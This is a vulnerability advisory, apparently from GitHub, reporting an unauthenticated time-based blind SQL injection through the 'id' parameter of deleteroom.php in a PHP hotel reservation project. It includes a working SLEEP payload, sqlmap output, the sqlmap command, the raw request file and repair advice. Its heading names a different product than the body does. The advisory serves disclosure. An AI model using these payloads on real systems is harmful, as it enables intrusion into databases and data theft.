 # SourceCodester Petrol Pump Management Software  deleteroom.php  sql injection

# NAME OF AFFECTED PRODUCT(S)

- Online Hotel Reservation System In PHP With Source Code

## Vendor Homepage

- [Online Hotel Reservation System In PHP With Source Code - Source Code & Projects](https://code-projects.org/online-hotel-reservation-system-in-php-with-source-code/)

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

- K1nako

## VERSION(S)

- V1.0

## Software Link

- https://download.code-projects.org/details/f2af5165-f165-4d1c-9648-394dc5119f9d

# PROBLEM TYPE

## Vulnerability Type

- SQL injection

## Root Cause

- A SQL injection vulnerability was found in the 'deleteroom.php' file of the 'Online Hotel Reservation System In PHP With Source Code' project. The reason for this issue is that attackers inject malicious code from the parameter "id" and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

# DESCRIPTION

- During the security review of "Online Hotel Reservation System In PHP With Source Code", K1nako discovered a critical SQL injection vulnerability in the "deleteroom.php" file. This vulnerability stems from insufficient user input validation of the 'id' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

# No login or authorization is required to exploit this vulnerability

# Vulnerability details and POC

## Vulnerability type:

- time-based blind

## Vulnerability location:

- 'id' parameter

## Payload:

```
id=1'+(SELECT 0x50504e58 WHERE 2593=2593 AND (SELECT 6569 FROM (SELECT(SLEEP(5)))VgWi))+'
```

```
Parameter: #1* (URI)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://192.168.248.130:8885/admin/deleteroom.php?id=1'+(SELECT 0x50504e58 WHERE 2593=2593 AND (SELECT 6569 FROM (SELECT(SLEEP(5)))VgWi))+'
    Vector: AND (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])
```

![image-20250728175350111](assets/image-20250728175350111.png)



## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:

```
python3 sqlmap.py -r C:\Users\14420\Desktop\data.txt --dbs -v 3 --batch --level 5
```

```
//data.txt
GET /admin/deleteroom.php?id=1* HTTP/1.1
Host: 192.168.248.130:8885
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=erobstmt8j7vlp6ka4ath65un3
Connection: keep-alive

```

# Attack results

![image-20250728175426536](assets/image-20250728175426536.png)

# Suggested repair



1. **Use prepared statements and parameter binding:** Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.
2. **Input validation and filtering:** Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Minimize database user permissions:** Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.
4. **Regular security audits:** Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.
